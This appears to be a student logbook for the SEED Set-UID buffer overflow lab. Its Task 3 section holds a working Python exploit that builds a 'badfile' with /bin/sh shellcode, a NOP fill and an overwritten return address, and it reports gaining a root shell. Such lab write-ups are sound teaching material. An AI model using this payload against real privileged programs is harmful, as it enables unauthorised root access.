




# LOGBOOK 5 - Buffer Overflow Attack Lab (Set-UID Version)

## Task 1
Both programs gave access to new shell, working as intended.

## Task 2
Compilation using make: 

## Task 3


To choose the value of the variables we decided:
 - shellcode = \x31\xc0\x50\ (...), from the 3.4. Executes /bin/sh;
 - start = 0, to send just the shellcode;
 - ret = 0xffffc9dc, buffer address, obtained during the debugging;
 - offset = 112, 108 (distance between ebp and buffer) + 4 (ebp size).
``` python
#!/usr/bin/python3
import sys

# Replace the content with the actual shellcode
shellcode= (
  "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
"\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
"\xd2\x31\xc0\xb0\x0b\xcd\x80").encode('latin-1')

# Fill the content with NOP's
content = bytearray(0x90 for i in range(517)) 

##################################################################
# Put the shellcode somewhere in the payload
start = 0              
content[start:start + len(shellcode)] = shellcode

# Decide the return address value 
# and put it somewhere in the payload
ret    = 0xffffc9dc     
offset = 112        

L = 4     # Use 4 for 32-bit address and 8 for 64-bit address
content[offset:offset + L] = (ret).to_bytes(L,byteorder='little') 
##################################################################

# Write the content to a file
with open('badfile', 'wb') as f:
  f.write(content)
  ```

After the execution of the exploit, the vulnerable program stack, when run, gave us a root shell. 

